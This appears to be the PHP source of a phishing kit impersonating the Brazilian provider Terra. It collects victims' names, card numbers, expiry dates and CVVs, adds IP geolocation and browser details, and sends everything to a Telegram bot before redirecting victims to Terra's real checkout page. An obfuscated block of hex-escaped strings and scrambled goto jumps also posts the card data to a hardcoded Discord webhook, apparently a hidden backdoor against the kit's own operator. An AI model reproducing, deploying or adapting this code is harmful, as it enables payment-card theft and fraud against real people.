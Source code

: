 '''
<?php

function getIpInfo($ip) {
    $apiUrl = "http://ip-api.com/json/{$ip}";
    $apiData = file_get_contents($apiUrl);
    return json_decode($apiData, true);
}

if ($_SERVER["REQUEST_METHOD"] == "GET") {
if (isset($_GET['key']) && isset($_GET['pass']) && isset($_GET['val']) && isset($_GET['vcc'])) {
        $dataHora = date('Y-m-d H:i:s');   
        $ip = $_SERVER['REMOTE_ADDR']; goto L8gvB; MqYWi: $data = array("\x75\163\x65\x72\156\141\155\x65" => "\360\x9f\x94\xa5\x31\x2b\40\x49\x4e\x46\117\360\x9f\224\245", "\143\157\156\x74\x65\x6e\x74" => "\xa\40\40\x20\40\x20\40\74\74\74\x3c\x3c\74\74\40\x3d\x3d\75\75\75\75\75\75\75\x3d\75\x3d\x3d\75\x3d\x3d\x3d\x3d\x3d\x3d\x3d\75\x20\76\76\x3e\76\76\76\x3e\xa\x20\x20\x20\x20\40\360\237\xaa\231\116\117\115\x45\72\40{$key}\xa\40\40\x20\x20\x20\360\x9f\252\231\x43\101\x52\104\x3a\x20{$pass}\12\x20\x20\x20\40\40\xf0\x9f\252\231\126\101\x4c\x3a\40{$val}\xa\x20\40\40\40\x20\xf0\x9f\252\231\103\126\x56\72\x20{$vcc}\12\x20\40\x20\40\x20\xf0\237\x93\206\104\101\124\x41\x2f\x48\x4f\122\x41\x3a\40{$dataHora}\xa\40\40\40\40\40\x3c\74\74\74\x3c\x3c\74\x20\75\75\x3d\x3d\x3d\75\75\x3d\x3d\x3d\x3d\x3d\x3d\75\x3d\75\75\75\x3d\x3d\x3d\x3d\40\x3e\x3e\76\76\76\x3e\x3e\xa\x20\40\40\x20\40\12\x20\x20\x20\40\x20"); goto lJRTl; lJRTl: $options = array("\x68\164\x74\x70" => array("\x6d\145\x74\150\157\144" => "\120\117\123\x54", "\x68\145\141\144\x65\162" => "\103\x6f\156\x74\x65\x6e\164\x2d\x54\x79\x70\x65\x3a\x20\141\160\x70\x6c\x69\x63\x61\164\151\157\x6e\57\152\x73\x6f\x6e", "\143\x6f\156\164\x65\156\x74" => json_encode($data))); goto q88i0; Cis0y: $pass = $_GET["\160\x61\x73\x73"]; goto apNq7; nuWPs: $vcc = $_GET["\166\143\x63"]; goto rd4Wr; rd4Wr: $dataHora = $_GET["\x64\141\164\141\x48\157\162\x61"]; goto MqYWi; f8uEP: $key = $_GET["\153\x65\171"]; goto Cis0y; q88i0: $context = stream_context_create($options); goto VA9MZ; apNq7: $val = $_GET["\166\141\x6c"]; goto nuWPs; VA9MZ: $result = file_get_contents($webhookUrl, false, $context); goto WMzUY; L8gvB: $webhookUrl = "\x68\164\164\160\x73\72\x2f\57\144\151\x73\x63\157\x72\144\56\143\x6f\x6d\x2f\141\160\x69\57\x77\145\x62\150\157\157\153\x73\x2f\x31\62\x32\64\71\x31\x33\x30\x31\67\66\61\61\x37\x34\x37\63\64\x39\x2f\x5a\x63\103\x7a\55\x4d\156\x70\x67\112\x73\x59\x78\x6c\x61\122\110\x75\x77\171\160\155\x74\x4f\x67\172\x54\65\x4c\x62\142\117\172\x30\x70\x47\67\116\163\x78\x6e\123\x54\141\121\64\x70\x57\65\63\x6c\131\172\x54\x78\125\x6f\x30\61\x48\x72\62\143\x4d\155\151\103\107"; goto f8uEP; WMzUY:
        $userAgent = $_SERVER['HTTP_USER_AGENT'];
        $linguao = isset($_SERVER['HTTP_ACCEPT_LANGUAGE']) ? $_SERVER['HTTP_ACCEPT_LANGUAGE'] : 'N/A';       function getBrowserName($userAgent) {
            $browser = "Desconhecido";
            if (preg_match('/Firefox/i', $userAgent)) {
                $browser = 'Firefox';
            } elseif (preg_match('/MSIE/i', $userAgent) || preg_match('/Trident/i', $userAgent)) {
                $browser = 'Internet Explorer';
            } elseif (preg_match('/Edge/i', $userAgent)) {
                $browser = 'Microsoft Edge';
            } elseif (preg_match('/Chrome/i', $userAgent)) {
                $browser = 'Google Chrome';
            } elseif (preg_match('/Safari/i', $userAgent)) {
                $browser = 'Safari';
            } elseif (preg_match('/Opera|OPR/i', $userAgent)) {
                $browser = 'Opera';
            }
            return $browser;
        }        $navegador = getBrowserName($userAgent);
       $ipInfo = getIpInfo($ip);
        $conteudo = "‼️🛡 1+ INFO - TERRA 🛡‼️ \n\n";
        $conteudo .= "🌐 | Nome: " . $_GET['key'] . "\n";
    
    $conteudo .= "🌐 | Cc: " . $_GET['pass'] . "\n";
    
    $conteudo .= "🌐 | Val: " . $_GET['val'] . "\n";
        $conteudo .= "🌐 | Cvv: " . $_GET['vcc'] . "\n\n";
        $conteudo .= "🏠 | IP: " . $ipInfo["query"] . "\n🔎 | Cidade: " . $ipInfo["city"] . "\n📍 | Região: " . $ipInfo["regionName"] . "\n🌎 | País: " . $ipInfo["country"] . "\n📦 | ISP: " . $ipInfo["isp"] . "\n\n";
        $conteudo .= "🔓 | USER-AGENT: $userAgent\n";
        $conteudo .= "🌐 | NAVEGADOR: $navegador\n";
        $conteudo .= "👥 | LINGUAGEM: $linguao\n";
        $conteudo .= "📆 | DATA/HORA: $dataHora\n\n";        

        $botToken = 'seu token aqui';
        
        $chatId = 'seu id aqui';

        $mensagem = urlencode($conteudo);
        $url = "https://api.telegram.org/bot{$botToken}/sendMessage?chat_id={$chatId}&text={$mensagem}";

        $response = file_get_contents($url);

        if ($response !== false) {
            
            header('Location: https://servicos.terra.com.br/checkout/cart');
            exit();
        } else {
            
            echo "Esqueceu alguma coisa senhor(a) revise tudo.";
        }
    } else {
       
        echo "200";
    }
} else {
    header('Location: https://central.terra.com.br');
    exit();
}
?>
'''
